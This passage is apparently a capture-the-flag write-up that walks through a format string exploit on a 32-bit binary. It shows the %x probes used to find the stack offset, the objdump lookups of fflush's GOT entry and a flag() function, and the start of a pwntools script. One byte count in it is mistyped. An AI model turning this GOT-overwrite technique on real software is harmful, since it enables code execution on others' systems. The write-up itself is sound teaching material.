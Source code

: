 So we can see here the function of the code. It first scans in data through an fgets call, then appends our input the the back of a string using `sprintf`, then prints out that string without formatting it which is where we get the format string exploit. Using this we should be able to overwrite the address of `fflush` with something else. Looking through the code, we find a function that looks appealing:

```
int flag(void)
{
  return system("cat flag.txt");
}
```

This is the function `flag`., It appears to just cat out the `flag.txt` file. So if we overwrote the address of `fflush` with the address of the `flag` function, when it tried to run the fflush function after the format string exploit it would run the `flag` function and we would get the flag. In order to do that, first we need to find how far away our input on the stack is for the format string exploit.

```
./32_new 
Hello baby pwner, whats your name?
0000.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x
Ok cool, soon we will know whether you pwned it or not. Till then Bye 0000.8048914.ffbbd4c8.1.f73f6618.36e.f73fc668.ffbbd774.ffbbd514.ffbbd510.30303030.2e78252e.252e7825
```

So we an see here our input is 10 words away from our printf call. Next thing we need to find out is the address of fflush, which is the address we are overwriting:

```
objdump -R 32_new | grep fflush
0804a028 R_386_JUMP_SLOT   fflush@GLIBC_2.0
```

So the address that we need to overwrite is at `0x804a028`. Now we need to find the address that we need to write to it, which is the addressof `flag`. 

```
$	objdump -D 32_new | grep flag
0804870b <_Z4flagv>:
0804883c <_GLOBAL__sub_I__Z4flagv>:
```

So we see that the address we need to overwrite is `0x0804870b`.So now that we know what to write, and where to write it there is only one more thing left. In order to write the address `0x0804870b` we need to print 0x0804780b bytes. Reasonably speaking that just isn't feasible. What we can do is write to the address three times (will explain why three later), so effictively we will have to print way less bytes. 

A couple of things, first we will have to write to the least singificant bit first. Secondly each subsequent write will be greater than the last. First let's see how much data we are writing to the adress without adding any extra bytes. We will do so with this python script:

```
#Import pwntools
from pwn import *

#Establish the target process, or network connection
target = process('./32_new')
#target = remote('163.172.176.29', 9035)

#Attach gdb if it is a process
gdb.attach(target)

#Print the first line of text
print target.recvline()

#Prompt for input, to pause for gdb
raw_input()
```